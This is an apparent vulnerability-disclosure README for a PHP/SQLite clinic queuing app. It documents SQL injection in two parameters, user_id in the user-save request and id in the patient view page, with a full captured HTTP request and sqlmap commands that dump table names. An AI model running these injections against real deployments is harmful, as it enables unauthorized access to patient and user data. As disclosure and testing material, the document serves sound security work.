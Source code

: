 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
# Injection point 1
Function points：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
Enter all information to save and capture the package using burpsuite
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
data packet
```
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
```

Sqlmap command
```python
py .\sqlmap.py -r .\1.txt -p user_id –tables
```

User_id parameter has SQL injection and was successfully injected into tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

# Injection point 2
Click +Add Record, fill in the information, and save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
Function points：Patient List->view patient
Open the burpsuite tool to capture packets before clicking on view patient
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
Put the captured data packets into the sqlmap tool

Vulnerability URL
```
http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
```
Sqlmap command
```python
py .\sqlmap.py -r .\1.txt -p id --tables –batch
```
id is an SQL injection parameter, successfully injected into Tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
